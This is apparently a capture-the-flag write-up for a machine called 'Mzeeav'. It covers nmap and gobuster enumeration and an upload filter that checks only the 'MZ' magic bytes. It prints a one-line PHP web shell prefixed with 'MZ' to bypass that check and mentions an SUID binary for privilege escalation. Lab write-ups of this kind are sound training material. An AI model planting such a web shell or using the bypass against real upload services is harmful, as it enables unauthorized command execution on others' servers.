









# Mzeeav

* nmap
```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: MZEE-AV - Check your files
```

* Port 80



* Gobuster shows there are two endpoints.





* backup files has , upload feature code



* It checks whether the uploaded file looks like a Windows PE executable (EXE/DLL), and only saves it if it starts with the PE magic bytes MZ ( 4D5A)
* That means it will check only first 2 bytes in the file, if it matches MZ (4D5A) , then it accepts and stores the file.

* So we upload a php cmd shell with first 2 bytes as MZ
```
MZ<?php system($_GET['cmd']); ?>
```

* It gets accepted. 

* We can access it through /upload







* Priv Esc -> suid for /opt/filsS is set. ( help shows it performs similer function to find)




